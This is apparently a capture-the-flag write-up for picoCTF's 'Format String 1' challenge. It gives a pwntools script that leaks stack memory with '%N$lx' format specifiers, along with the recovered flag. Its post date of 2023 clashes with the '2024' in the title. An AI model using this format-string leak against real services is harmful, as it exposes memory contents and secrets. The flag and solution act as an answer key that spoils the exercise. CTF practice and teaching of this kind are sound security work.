 ```yaml
---
title: "Format String 1 (picoCTF 2024)"
summary: "Easy pwn chal - format string vuln"
description: "Easy pwn chal - format string vuln"
tags: [pwn, easy, writeup]
date: 2023-04-23T22:00:00-05:00
draft: false
searchHidden: false
ShowToc: true
TocOpen: false
hidemeta: false
# weight: 1
---
```


## Description

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

Given files: [format-string-1](/picoctf-format-string-1/format-string-1) [format-string-1.c](/picoctf-format-string-1/format-string-1.c)

---

## Writeup



### Solve script

```py
from pwn import *

elf = ELF('./format-string-1')

host = <'host'>
port = <port>
# p = remote(host, port)

s = ""
orders = []
for i in range (14,30):
    p = remote(host, port)
    # p = elf.process()
    format_s = b"".join([b"%" + str(i).encode("utf-8") + b"$lx"])
    p.recvuntil(b":")
    p.sendline(format_s)
    out = p.recvall().decode('utf-8').strip().split(" ")[3].splitlines()[0]
    orders.append(out)

orders.reverse()
print(orders)
print(''.join(orders))
```

## Flag

`picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}`

---